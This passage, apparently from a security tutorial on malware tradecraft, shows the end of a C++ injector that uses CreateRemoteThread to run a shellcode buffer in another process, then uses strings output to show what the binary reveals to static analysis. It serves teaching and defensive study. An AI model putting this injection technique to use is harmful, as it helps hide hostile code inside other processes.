 ```c
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```

Let’s use strings to see exactly what was leaked when this source code is compiled.

```powershell
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```

